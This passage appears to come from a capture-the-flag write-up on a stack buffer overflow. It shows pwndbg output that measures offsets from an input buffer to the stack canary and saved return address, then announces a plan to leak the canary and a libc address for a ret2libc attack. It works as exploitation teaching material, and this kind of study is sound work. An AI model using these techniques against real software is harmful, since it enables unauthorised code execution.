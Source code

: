 ```plaintext
*R10  0x63b6fcebc084 ◂— 0x697661654c000a0a /* '\n\n' */
 R11  0x246
 R12  0x63b6fcebb120 (_start) ◂— endbr64 
 R13  0x7ffe9ee44190 ◂— 1
 R14  0
 R15  0
 RBP  0x7ffe9ee440a0 ◂— 0
 RSP  0x7ffe9ee43ff0 ◂— 0
*RIP  0x63b6fcebbd2e (main+332) ◂— call 0x63b6fcebb0f0
──────────────────────────────[ DISASM / x86-64 / set emulate on ]───────────────────────────────
 ► 0x63b6fcebbd2e <main+332>    call   read@plt                    <read@plt>
        fd: 0 (/dev/pts/0)
        buf: 0x7ffe9ee44040 —▸ 0x63b6fceba040 ◂— 0x400000006
        nbytes: 0x1000
 

──────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────
 ► 0   0x63b6fcebbd2e main+332
   1   0x72db05d8d083 __libc_start_main+243
   2   0x63b6fcebb14e _start+46
─────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> i f
Stack level 0, frame at 0x7ffe9ee440b0:
 rip = 0x63b6fcebbd2e in main; saved rip = 0x72db05d8d083
 called by frame at 0x7ffe9ee44180
 Arglist at 0x7ffe9ee440a0, args: 
 Locals at 0x7ffe9ee440a0, Previous frame's sp is 0x7ffe9ee440b0
 Saved registers:
  rbp at 0x7ffe9ee440a0, rip at 0x7ffe9ee440a8
pwndbg> dist $rsi 0x7ffe9ee440a8
0x7ffe9ee44040->0x7ffe9ee440a8 is 0x68 bytes (0xd words)
pwndbg> dist $rsi $rbp-0x8
0x7ffe9ee44040->0x7ffe9ee44098 is 0x58 bytes (0xb words)
pwndbg>
10:0080│-030 0x7ffe9ee44070 —▸ 0x72db05f5a2e8 (__exit_funcs_lock) ◂— 0
11:0088│-028 0x7ffe9ee44078 —▸ 0x63b6fcebbd70 (__libc_csu_init) ◂— endbr64 
12:0090│-020 0x7ffe9ee44080 ◂— 0
13:0098│-018 0x7ffe9ee44088 —▸ 0x63b6fcebb120 (_start) ◂— endbr64 
14:00a0│-010 0x7ffe9ee44090 —▸ 0x7ffe9ee44190 ◂— 1
15:00a8│-008 0x7ffe9ee44098 ◂— 0x886d7ea0e4d74100
16:00b0│ rbp 0x7ffe9ee440a0 ◂— 0
17:00b8│+008 0x7ffe9ee440a8 —▸ 0x72db05d8d083 (__libc_start_main+243) ◂— mov edi, eax ◂— ret 
```
**Putting It All Together — Leaking Canary and Libc, then ret2libc**
At this point, we know everything we need:

- The **offsets** to reach the **canary** and the **return address**
- A leaked pointer to ```__libc_start_main+243```
- And a helpful ```read```/```scanf``` mechanism that lets us control both memory and execution flow
